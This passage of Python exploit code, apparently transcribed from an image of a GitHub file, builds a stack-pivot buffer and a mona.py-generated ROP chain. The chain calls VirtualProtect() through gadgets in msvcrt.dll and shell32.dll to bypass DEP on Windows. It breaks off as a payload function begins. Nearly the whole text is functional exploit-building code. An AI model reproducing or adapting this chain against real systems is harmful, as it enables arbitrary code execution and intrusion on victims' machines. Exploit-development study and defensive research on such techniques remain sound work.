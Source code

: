     rop2 = rop1 * 4
    
    stackpivot = list("\x44" * 60)
    
    stackpivot[offsets[0]: len(rop1)] = rop1
    stackpivot[offsets[1]: (len(rop2) + offsets[1])] = rop2
    stackpivot[offsets[2]: (len(rop1) + offsets[2])] = rop1
    stackpivot[offsets[3]: (len(rop1) + offsets[3])] = rop1

    return ''.join(stackpivot)


def deprop():
    """
    rop -m msvcrt.dll,shell32.dll -cpb '\x00\x0a\x0d'
    rop chain generated with mona.py - www.corelan.be
    Register setup for VirtualProtect() :
    --------------------------------------------
     EAX = NOP (0x90909090)
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = ReturnTo (ptr to jmp esp)
     ESI = ptr to VirtualProtect()
     EDI = ROP NOP (RETN)
     --- alternative chain ---
     EAX = ptr to &VirtualProtect()
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = POP (skip 4 bytes)
     ESI = ptr to JMP [EAX]
     EDI = ROP NOP (RETN)
     + place ptr to "jmp esp" on stack, below PUSHAD
    --------------------------------------------
    """
    rop_gadgets = [
        0x77bc5f6e,  # POP EAX # RETN [msvcrt.dll] 
        0x7c8d1748,  # ptr to &VirtualProtect() [IAT SHELL32.dll]
        0x7c9db891,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [SHELL32.dll] 
        0x77bb0c86,  # XCHG EAX,ESI # RETN [msvcrt.dll] 
        0x77bac145,  # POP EBP # RETN [msvcrt.dll] 
        0x7c9b640c,  # & jmp esp [SHELL32.dll]
        0x7c946761,  # POP EAX # RETN [SHELL32.dll] 
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
        0x7ca2a6af,  # XCHG EAX,EBX # RETN [SHELL32.dll] 
        0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
        0x77bb8285,  # XCHG EAX,EDX # RETN [msvcrt.dll] 
        0x77bbc98a,  # POP ECX # RETN [msvcrt.dll] 
        0x7cadc046,  # &Writable location [SHELL32.dll]
        0x7c92940e,  # POP EDI # RETN [SHELL32.dll] 
        0x7c9b2678,  # RETN (ROP NOP) [SHELL32.dll]
        0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
        0x90909090,  # nop
        0x7c8f417c,  # PUSHAD # RETN [SHELL32.dll]     
    ]
    return ''.join(pack('<I', _) for _ in rop_gadgets)


def payload(cfg):
    plsize   = cfg['size']